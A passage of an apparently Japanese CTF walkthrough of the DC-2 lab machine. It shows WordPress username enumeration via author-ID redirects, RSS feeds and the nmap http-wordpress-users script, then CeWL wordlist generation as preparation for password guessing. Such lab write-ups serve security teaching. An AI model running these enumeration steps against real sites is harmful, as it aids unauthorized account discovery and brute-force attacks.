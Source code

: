 wordpress では，$URI/?author=USER_ID => $/URI/index.php/author/USERNAME
に転送されるのでリダイレクト先の URI から USERNAME を推測できる。
また feed からも USERNAME を推測できる

```sh
# ResponceHeaderからリダイレクト先を入手
parrot01$ curl -I $URI/?author=1

> HTTP/1.1 301 Moved Permanently
> Date: Fri, 24 Jan 2025 01:12:45 GMT
> Server: Apache/2.4.10 (Debian)
> Location: http://dc-2/index.php/author/admin/
> Content-Type: text/html; charset=UTF-8
```

Location ヘッダーに情報があるので，それを取得する

```sh
parrot01$ curl -s -I $URI/?author=[1-5] | grep 'Location'

> Location: http://dc-2/index.php/author/admin/
> Location: http://dc-2/index.php/author/jerry/
```

```sh
#feedからユーザー名を取得する
parrot01$ curl -s $URI/?author=[1-5] | grep '\/author\/'

> <link rel="alternate" type="application/rss+xml" title="DC-2 &raquo; Posts by Tom Cat Feed" href="http://dc-2/index.php/author/tom/feed/" />
```

上記の作業を nmap に[スクリプト](https://svn.nmap.org/nmap/scripts/http-wordpress-users.nse)をつかって行ってみる

```sh
parrot01$ nmap -p80 --script http-wordpress-users $IP
```

上記情報からユーザーリストを作る

```sh
parrot01$ echo -e "admin\njerry\ntom" > users.txt
```

### 15. 辞書ファイルを生成(CeWL)

[CeWL](https://github.com/digninja/CeWL)を用いて辞書ファイルを生成する

```sh
parrot01$ git clone https://github.com/diginja/CeWL && cd $_
parrot01$ sudo gem install bundler
parrot01$ chmod u+x ./cewl.rb  # 実行権限を付与
parrot01$ ./cewl.rb dc-2               # プログラムを確認
parrot01$ ./cewl.rb dc-2 -w ../cewl.txt # ファイルに書き込み
parrot01$ head ../cewl.txt            # 書き込まれたか確認
parrot01$ cd ../                                 # 辞書ファイルをおいたディレクトリに移動
```
